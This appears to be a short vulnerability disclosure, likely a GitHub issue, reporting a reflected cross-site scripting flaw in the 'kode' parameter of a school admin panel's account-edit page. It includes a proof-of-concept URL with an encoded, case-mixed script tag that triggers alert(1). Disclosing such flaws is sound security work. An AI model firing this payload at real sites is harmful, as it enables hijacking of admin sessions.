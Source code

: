 Backend login is at http://sekolah.local/Admin/akun.php, click Edit to http://sekolah.local/Admin/akun_edit.php?kode= where reflective xss exists
poc : http://sekolah.local/Admin/akun_edit.php?kode=%22%3E%3CScRiPt%3Ealert(1)%3C/sCrIpT%3E

![image](https://github.com/user-attachments/assets/afb44053-de08-4087-af39-ce8cfef862d2)

